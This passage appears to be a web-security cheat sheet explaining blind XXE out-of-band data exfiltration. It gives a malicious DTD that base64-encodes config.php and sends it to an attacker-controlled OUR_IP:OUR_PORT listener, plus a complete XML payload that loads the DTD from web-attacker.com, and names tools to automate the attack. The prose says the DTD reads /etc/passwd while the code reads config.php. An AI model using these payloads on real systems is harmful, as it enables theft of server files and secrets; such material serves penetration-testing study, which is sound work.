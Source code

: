 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % out SYSTEM "php://filter/read=convert.base64-encode/resource=config.php">
<!ENTITY % oob "<!ENTITY referenceme SYSTEM 'http://OUR_IP:OUR_PORT/?content=%out;'>">
```
> Note: Alternatively, we can use Burp Collaborator, [CanaryTokens](https://canarytokens.org/generate#), or [interactsh](https://github.com/projectdiscovery/interactsh) to replace `OUR_IP:OUR_PORT`.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://web-attacker.com/malicious.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&referenceme;</productId></stockCheck> <!-- Reference the "referenceme" from ENTITY in our malicious.dtd -->
```

Alternatively, we can use [XXEInjection](https://github.com/enjoiz/XXEinjector) to automate this process.